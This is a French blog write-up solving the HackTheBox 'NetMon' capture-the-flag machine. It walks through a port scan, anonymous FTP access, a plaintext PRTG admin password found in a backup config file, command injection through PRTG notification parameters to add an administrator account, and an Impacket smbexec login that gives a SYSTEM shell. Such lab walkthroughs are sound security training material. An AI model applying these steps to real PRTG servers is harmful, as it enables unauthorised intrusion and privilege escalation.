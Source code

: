 # Solution du CTF NetMon de HackTheBox

RealPain
--------

*NetMon* est un CTF facile (20 points seulement) basé sur Windows et proposé sur *HackTheBox*.  

Une partie de plaisir me direz-vous ? Le CTF était effectivement super facile mais entre les mots de passes réinitialisés en permanence, les resets intempestifs de la machine et les scripts kiddies qui lancent des exploits sans lire la moindre description ce CTF avait tout de l'enfer :p  

Free Flag
---------

On lance un masscan qui nous trouve les classiques ports Windows ainsi qu'un serveur FTP :  

```plain
$ sudo masscan -e tun0 --rate 1000 -p1-65535 10.10.10.152

Starting masscan 1.0.4 (http://bit.ly/14GZzcT)
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 49675/tcp on 10.10.10.152                                 
Discovered open port 49664/tcp on 10.10.10.152                                 
Discovered open port 139/tcp on 10.10.10.152                                   
Discovered open port 21/tcp on 10.10.10.152                                    
Discovered open port 49665/tcp on 10.10.10.152                                 
Discovered open port 49669/tcp on 10.10.10.152                                 
Discovered open port 5985/tcp on 10.10.10.152                                  
Discovered open port 135/tcp on 10.10.10.152                                   
Discovered open port 49666/tcp on 10.10.10.152                                 
Discovered open port 49671/tcp on 10.10.10.152                                 
Discovered open port 47001/tcp on 10.10.10.152
```

Le port 80 est lui aussi ouvert même s'il ne l'était pas lors du scan (merci les skidz !)  

On se connecte en FTP avec le user *anonymous* et on se rend compte que le serveur nous livre son *C:* en lecture seule (les droits semblent être l'équivalent d'un compte *Invité* cependant).  

C'est suffisant pour lire le flag présent dans *c:\users\public\desktop\user.txt* (dd58ce6--- snip ---8d9255a5).  

PRTGWUT?
--------

En explorant le disque on voit différents fichiers en relation avec PRTG, comme *c:\windows\restart.bat* :  

```plain
net stop PRTGCoreService
copy "c:\Windows\PRTG Configuration.dat" "C:\ProgramData\Paessler\PRTG Network Monitor"
net start PRTGCoreService
```

Ce fichier *.dat* est en réalité un fichier XML contenant la configuration de [PRTG](https://www.paessler.com/prtg). PRTG est un logiciel de monitoring assez poussé. On y défini des règles de surveillance et si quelque chose tourne mal cela provoque une notification (génération d'un rapport, envoi d'un email, exécution d'un programme, etc).  

Le fichier de configuration semble contenir des entrées correspondant à des mots de passe mais ces entrées encodées en base64 ont été visiblement préalablement chiffrées.  

Toutefois en fouillant sur Internet j'ai trouvé [ce post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) sur *Reddit* faisait part d'un bug de PRTG ayant provoqué à un moment le stockage en clair des mots de passe.  

Et effectivement j'ai trouvé sur le disque le fichier *PRTG Configuration.old.bak* qui lui contient un mot de passe en commentaire :  

```html
<dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
</dbpassword>
```

On s'empresse de tester ce mot de passe et il ne fonctionne pas... On essaye *PrTg@dmin2019*... bingo ! Cela nous ouvre les portes de l'interface web de PRTG en écoute sur le port 80.  

Si le service était aussi souvent indisponible c'est que certains participants ont du chercher PRTG via *searchsploit* ou autre et on eu le résultat suivant :  

```plain
$ searchsploit prtg
------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                          |  Path
                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------ ----------------------------------------
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)| exploits/windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                 | exploits/java/webapps/34108.txt
------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
```

Puis ils se sont empressés d'exécuter le code alors qu'il y a bien mentionné *Denial of Service* sur la gauche et *dos* dans le path X'D...  

Quoiqu'il en soit l'objectif est de créer une notification via le menu *Setup*. On choisit bien sûr une action de type exécution de commande.  

Seulement deux programmes sont proposés à l'exécution : un script bat que voici :  

```plain
REM Demo 'BAT' Notification for Paessler Network Monitor
REM Writes current Date/Time into a File
REM
REM How to use it:
REM
REM Create a exe-notification on PRTG, select 'Demo Exe Notifcation - OutFile.bat' as program,
REM The Parametersection consists of one parameter:
REM
REM - Filename
REM
REM e.g.
REM
REM         "C:\temp\test.txt"
REM
REM Note that the directory specified must exist.
REM Adapt Errorhandling to your needs.
REM This script comes without warranty or support.

Echo  %DATE% %TIME% >%1%
```

ou sa version *Powershell* que voici :  

```plain
if ($Args.Count -eq 0) {

  #No Arguments. Filename must be specified.

  exit 1;
 }elseif ($Args.Count -eq 1){

  $Path = split-path $Args[0];

  if (Test-Path $Path)
  {
    $Text = Get-Date;
    $Text | out-File $Args[0];
    exit 0;

  }else
  {
    # Directory does not exist.
    exit 2;
  }
}
```

L'injection se fait alors dans les paramètres que l'on passe au script choisit. Je pensais au début que le problème était lié à l'absence de guillemets ou apostrophes autour de *%1%* dans le batch mais en réalité les paramètres permettent d'injection directement ce que l'on veut.  

D'ailleurs on voit [au numéro 7 de cet article de la KB de PRTG](https://kb.paessler.com/en/topic/2543-how-can-i-execute-a-batch-file-as-notification) que PRTG conseillent eux-même d'encapsuler les paramètres entre double ou simple quotes à cet endroit... ça laisse supposer beaucoup de choses :D  

J'ai pu exploiter cela tout seul mais j'ai découvert au moment de l'écriture du présent article qu'il existe un blog traitant [de cette faille d'exécution de commande dans PRTG](https://www.codewatch.org/blog/?p=453).  

On pouvait alors créer un compte administrateur sur la machine de cette façon :  

![HackTheBox NetMon CTF PRTG notification command execution vulnerability](https://github.com/devl00p/blog/raw/master/images/htb/netmon_prtg_notif.png)

Comme le montre l'infobulle, au moment de la création de la notification il faut laisser vide les identifiants si on veut que la tache soit exécutée avec les droits du démon PRTG (qui tourne en SYSTEM).  

Quand on enregistre la notification, PRTG re-renseigne ces champs mais j'ai remarqué qu'au moins si un ~~enfoiré~~ impondérable change le mot de passe du compte *prtgadmin*, il suffit de re-supprimer le mot de passe dans la notification pour que celle-ci refonctionne (sinon elle échoue en raison du mot de passe qui n'est plus valide).  

Finalement on peut définir notre notification parmi les notifications de base (exécutées pour tous les événements) ou spécifiquement sur un événement.  

![HackTheBox NetMon CTF PRTG devices group notification](https://github.com/devl00p/blog/raw/master/images/htb/netmon_prtg_devices.png)

Une fois qu'on s'est battu pour que personne n'ai supprimé / modifié la notification ou changé le mot de passe tout est ok et on peut obtenir le flag root :  

```plain
$ PYTHONPATH=. python examples/smbexec.py NETMON/devloop:Uns3cUr3@10.10.10.152
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

Finally
-------

Au moment de ces lignes 2203 participants ont eu le flag user contre 741 seulement pour le flag root... cherchez l'erreur :(

*Published June 29 2019 at 18 25*
